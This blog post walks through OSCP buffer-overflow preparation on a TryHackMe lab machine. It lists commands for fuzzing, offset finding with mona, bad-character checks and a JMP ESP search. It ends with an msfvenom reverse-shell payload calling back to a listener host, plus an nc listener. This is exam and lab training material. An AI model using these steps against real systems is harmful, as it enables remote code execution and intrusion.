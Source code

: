 ```yaml
---
title: Easy OSCP Bufferoverflow Preparation
description: Easy, simple yet effective and working OSCP Buffer Overflow preparation
author: hum4ng0d
date: 2020-11-21
categories: [Exploit, PoC]
tags: [windows, oscp, exploit, exploit development, buffer overflow, linux]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/oscp_bufferoverflow/feature.png
  alt: OSCP Buffer Overflow Preparation
---
```


For preparing OSCP Buffer Overflow, you just need a simple script that can fuzz and send buffer. That's it. You don't need to know a lot about python scripting nor complicated stuff. This is the most effective way and time efficient way. If you practice enough, you can beat buffer overflow machine in just 30 minutes. So you can have lots of time for the other 4 machines. If you still need help, feel free to reach out to me on twitter.

Free TryHackMe Room: [TryHackMe/bufferoverflow](https://tryhackme.com/room/bufferoverflowprep)

Thanks to Tib3rius for this awesome tryhackme room. 

Here is the link for all the scripts: [hum4nG0D/OSCP_Bufferoverflow_Prep](https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep)

I will take overflow1 from THM bufferoverflow room as an example. So fire up the machine and then connect. You will need to do `Immunity > Debug > restart > play` for each step.

```
> xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
  
> git clone https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep.git
```

<br>

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

<br>

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

<br>

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

<br>

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

![Mona Working Directory](/assets/img/oscp_bufferoverflow/workingdir.png)

<br>

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

![Generating Bytearray - Mona](/assets/img/oscp_bufferoverflow/bytearray.png)

<br>

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again until you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

![Unmodified](/assets/img/oscp_bufferoverflow/unmodified.png)

<br>

### 05 Finding a Jump Point

Replace the bad characters with what you find:

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

![Break point](/assets/img/oscp_bufferoverflow/pointer.png)

<br>

Make sure to edit the script and add the pointer address in reverse order. Then run the script.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

<br>

### 06 Popping Calculator

Again, don't forget to replace with the bad characters that you find:

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```

And that's it. You should be able to get a shell now. 